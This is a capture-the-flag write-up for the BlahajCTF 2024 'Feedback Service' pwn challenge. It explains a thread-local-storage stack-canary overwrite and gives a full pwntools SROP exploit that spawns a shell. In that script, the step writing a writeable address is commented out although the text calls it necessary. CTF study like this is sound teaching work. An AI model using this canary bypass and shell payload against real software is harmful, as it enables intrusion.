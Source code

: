 ```yaml
---
title: Feedback Service
date: 2024-11-27
tags: 
- pwn
- author-fs
categories: BlahajCTF 2024
---
```


by {% person fs %}

> You ever heard of the book "To kill a mockingbird"? What about to kill a canary?


This challenge was meant to be a TLS canary overwite challenge and pop shell. 

Looking at the source code of this challenge, we see an obvious buffer overflow since the program doesnt restrict the size of input that we want to give in.

```c
void feedback(){
    int size;
    char buf[100];
    printf("Enter size of message: ");
    scanf("%d",&size); //doesn't check if the size we enter exceeds 100
    while (getchar()!='\n');
    printf("Enter your messaage: ");
    fgets(buf,size,stdin); //buufer overflow
    puts("Your feedback will be noted.\n");
    return;
}
```

However, this program has canary and you can't just overwrite the saved canary as the program checks if the canary has been modified and if it is, it'll say stack smashing detected and crash. But for a very intentional and weird reason, this program also uses threading.

```c
int main(){
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);	
    printf("Welcome to our feedback service 2.0! Please leave a message with a length of your choice and we will get back to you asap\n");
    printf("This might be useful %p\n",(void *)printf);
    setAlarm();
    pthread_t thread;
    if (pthread_create(&thread,NULL,thread_func,NULL)!=0){
        exit(1);
    }
    pthread_join(thread,NULL);
    return 0;
}
```

We see the program implements threading and also gives us free libc printf leak.

The saved canary is stored in TLS (thread-local storage: you can read about it here https://gcc.gnu.org/onlinedocs/gcc/Thread-Local.html)

Hence, this, combined with the fact I can give whatever size of input (like 3000), I can easily buffer overflow all the way to TLS and overwrite the canary there such that the canary that the thread refers to would be modified in TLS  (fs:0x28) and we could craft our own canary to easily pop shell. Now, we can find the offset to TLS easily using gdb which I think was around 2176 and overwrite the canary at offset 2216 since the canary is stored in fs:0x28. We can construct the payload as the following "A" * OFFSET TO RIP (around like 120) and this also means we are overwritng the canary and saved rbp value. We can then place our pop shell payload (which can either be a pop_rdi in libc + /bin/sh or an SROP payload since pop_rax and syscall gadgets are given). We can then continue ovewriting all the way to TLS and overwrite the saved canary in TLS at offset 2216 with "A"*8 (and this would match the canary near rbp) hence the program would not throw the stack smashing detected error.

However, if you were to simply do this, you're gonna get an error which is _pthread_enable_asynccancel() like the following 

![](../../static/BlahajCTF2024/error.png)

The reason to this is because the pthread_struct within glibc has a self header at fs:0x10 and basically the addres in the self-header gets de-referenced and is stored in rax register and the problem with this is that this address needs to be writeable or else glibc will complain and throw that error i mentioned. You can learn more about this with this link (https://www.theflash2k.me/blog/writeups/aofctf/pwn/birdy101) or the stuff I posted in #pwn of blahajctf discord  So, given that we can calculate the libc base address since we're given a printf leak, we can just calculate a writeable address within libc (can just search in libc using vmmap) and use it to overwrite the address at fs:0x10 (which is at offset 2192). 

With all of these information, we can structure the following payload (im using srop but can also use onegadget/classic ret2libc technique).

```py
from pwn import *

p=process("../dist/./program")
#p=remote("188.166.198.74","30009")
elf=ELF("../dist/./program")
gdb.attach(p)
context(os='linux',arch='amd64')
context.log_level='DEBUG'

libc=ELF("../dist/libc.so.6")

syscall=0x000000000040130f
pop_rax=0x000000000040130d

addr=p.recvuntil(b"useful ")
addr=p.recv(14)
addr=int(addr,16)-libc.sym.printf #calculating libc base address coz ASLR
print(hex(addr))

frame=SigreturnFrame() #defining out sigframe to do system("/bin/sh") call
frame.rax=0x3b
frame.rdi=addr+0x197e34
frame.rsi=0
frame.rsp=0x4040000
frame.rdx=0
frame.rip=syscall

p.sendlineafter(b"size of message:",b"2400")
payload_1=b"A"*120+p64(0x0000000000401016)+p64(pop_rax)+p64(0xf)+p64(syscall)+bytes(frame) #srop payload
payload_1+=b"A"*(2192-len(payload_1)) #we overwriting all the way to tls
#payload_1+=p64(addr+0x01d66c8) #writeable libc addr at pthread struct self header
payload_1+=(2216-len(payload_1))*b"A" #then just overwrite the rest of tls including fs:0x28
payload_1+=b"A"*8

p.sendlineafter(b"Enter your messaage:",payload_1) 

p.interactive() #enjoy shell
```
